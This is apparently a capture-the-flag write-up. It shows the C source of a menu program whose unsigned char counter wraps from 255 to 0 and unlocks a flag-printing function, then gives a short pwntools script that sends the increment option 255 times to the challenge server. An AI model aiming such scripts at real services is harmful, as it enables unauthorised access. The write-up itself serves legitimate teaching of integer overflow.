

### Source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>
#include <unistd.h>
#include <errno.h>

#define NUM_BUF_SIZE 24
#define STRTOUL_BASE 10

void flag(void);

void disable_buffering(void);
void input_str(char *msg, char *str, size_t size);
unsigned long get_num(char *msg);

void flag(void) {
    system("cat flag.txt");
}

int main(int argc, char *argv[])
{
    unsigned char counter = 1;

    disable_buffering();

    while (true) {
        printf("Counter: %d\n", counter);
        puts("1) ++");
        puts("2) --");
        puts("3) Flag");
        puts("0) Exit");

        switch (get_num("Choice: ")) {
            case 1:
                counter++;
                break;
            case 2:
                if (counter > 1) {
                    counter--;
                }
                break;
            case 3:
                if (counter == 0) {
                    flag();
                } else {
                    puts("No.");
                }
                break;
            case 0:
                puts("Bye!");
            default:
                fprintf(stderr, "Invalid option\n");
                break;
        }

        putchar('\n');
    }

    return EXIT_SUCCESS;
}

void disable_buffering(void)
{
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}

void input_str(char *msg, char *str, size_t size)
{
    ssize_t num_bytes;

    fputs(msg, stdout);
    num_bytes = read(STDIN_FILENO, str, size - 1);
    if (num_bytes == -1) {
        perror("read");
        exit(EXIT_FAILURE);
    } else {
        str[num_bytes] = '\0';
    }

    return;
}

unsigned long get_num(char *msg)
{
    char str[NUM_BUF_SIZE] = { '\0' };
    char *endptr = NULL;
    unsigned long num;

    input_str(msg, str, NUM_BUF_SIZE);
    num = strtoul(str, &endptr, STRTOUL_BASE);
    if (errno == ERANGE) {
        perror("strtoul");
        exit(EXIT_FAILURE);
    }

    return num;
}
```
## Walkthrough

We know that the the unsigned char typically has a range of [0 to 255] for [more](https://www.geeksforgeeks.org/what-happens-if-loop-runs-till-maximum-of-signed-and-unsigned-in-c/) - if we loop through  it will jump to the 0 and that's the goal. I'll set up a script automation for that.  


```python
from pwn import *

r = remote("pwn.chal.ctf.gdgalgiers.com","1402")

for i in range(255 ):
    r.sendlineafter(b'Choice:', '1')

r.interactive()
```